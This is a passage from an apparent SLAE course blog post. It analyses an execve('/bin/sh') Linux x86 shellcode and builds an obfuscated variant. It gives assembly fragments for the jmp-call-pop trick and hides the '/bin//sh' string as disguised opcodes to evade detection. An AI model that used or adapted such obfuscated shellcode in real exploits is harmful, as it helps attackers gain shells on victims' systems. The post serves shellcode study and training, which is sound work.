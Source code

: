 The basic idea is to use the call trick, as seen on [assignment
5]({{site.url}}/slae/assignment-5-metasploit-shellcode-analysis/). After
setting EAX to be filled with 0x11, that it is the opcode for execve()
shellcode, there is a JUMP on a CALL instruction that set the EIP to a pop
$esi, since in that register it will be stored the memory address of the
executable to be called, "/bin/sh" that seems to be obfuscated, this way.

{%asciicast 198401%}

### First variation

The basic idea here is that:

* EAX must be filled with 0xb;
* EBX must point to a location filled with "/bin/sh";
* ECX and EDX can be set to 0.

As we did it for the kill(), we can split the shellcode into pieces so that it
would be easier to write variations.
For SLAE engagement rules, we must create shellcodes not longer than 45 bytes.

First step, let's init registers.

{%highlight asm%}
	push byte 0xb
	pop eax
	xor ecx, ecx
	push ecx
	pop edx
{%endhighlight %}

After this, there is the "call" trick:

{%highlight asm%}
...

	jmp short shell

flow:	
	pop ebx
	int 0x80

shell: 	
	call dword flow
...
{%endhighlight%}

And then, after the last call, there is the "/bin//sh" payload encoded as they
were assembly opcodes.

{%highlight asm%}
	das
	bound ebp,[ecx+0x6e]
	das
	das
	jae $+0x6a
{%endhighlight%}
